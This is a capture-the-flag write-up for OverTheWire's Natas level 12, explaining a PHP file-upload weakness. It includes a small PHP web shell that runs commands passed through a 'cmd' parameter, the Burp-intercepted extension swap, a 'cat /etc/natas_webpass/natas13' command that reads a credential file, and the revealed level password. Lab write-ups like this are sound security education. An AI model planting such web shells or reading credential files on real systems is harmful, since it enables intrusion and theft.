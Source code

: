 For this level, it appears the way we will acquire the password for natas13 will have something to do with uploading a JPEG file with a max of 1KB.

Let's take a look at the source code, and, starting from the top, try to figure out exactly what's going on.

```php
function genRandomString() {
   $length = 10;
   $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
   $string = "";    

   for ($p = 0; $p < $length; $p++) {
       $string .= $characters[mt_rand(0, strlen($characters)-1)];
   }

   return $string;
}
```

`genRandomString` takes a length from a variable, in this case 10, and generates a random string of that length that can contain only 0-9 and the standard English alphabet.

```php
function makeRandomPath($dir, $ext) {
   do {
   $path = $dir."/".genRandomString().".".$ext;
   } while(file_exists($path));
   return $path;
}
```

`makeRandomPath` takes a given directory and, using `genRandomString`, generates a random file path with a given extension. It uses a while loop to make sure that the file name does not already exist.

```php
function makeRandomPathFromFilename($dir, $fn) {
   $ext = pathinfo($fn, PATHINFO_EXTENSION);
   return makeRandomPath($dir, $ext);
}
```

`makeRandomPathFromFilename` takes a given directory and a filename, grabs the extension from the file name, and creates a random path for the file to be saved using `makeRandomPath`.

```php
if(array_key_exists("filename", $_POST)) {
$target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
```

Now, once we actually upload a file to the server, it will begin by making a random path for the given filename to be saved to under /upload/.

```php
if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
    echo "File is too big";
} else {
    if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
        echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
    } else{
        echo "There was an error uploading the file, please try again!";
    }
}
```

These are just a set of conditions for the file to be run through. If the size is over 1KB, "File is too big" will be output onto the page. If the file is the correct size, it will check that it was a valid file uploaded via POST by the move_uploaded_file function. If it was uploaded, the user is given a path under which the file has been uploaded. If not, they are given a simple error message.

```php
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? }
```

While I am not familiar with PHP, a few things immediately stand out. For one, it appears to not care about what file type is actually uploaded to the server. They depend on the generation of a random name with a jpg extension on the client side to prevent someone from, say, uploading a php file to their server.

Now, we're going to find out what happens if we upload a malicious PHP file to the server, and what information Burp Suite gives us when we upload it.

Since I am not that familiar with PHP, I did a bit of digging and found the following code on OWASP's page on file upload vulnerabilities:

```php
if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
```

This seemingly allows us to just run a command via a ?cmd= parameter in the browser, so I saved it as test.php and uploaded it.

Upon uploading, Burp Suite picked up a body parameter called "filename" set with the randomly generated name as the value, and I simply changed the file extension to .php rather than .jpg, and it was successfully uploaded!

Using my given link, I just appended '?cmd=cat /etc/natas_webpass/natas13' and the password was echo'd onto the page.

Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
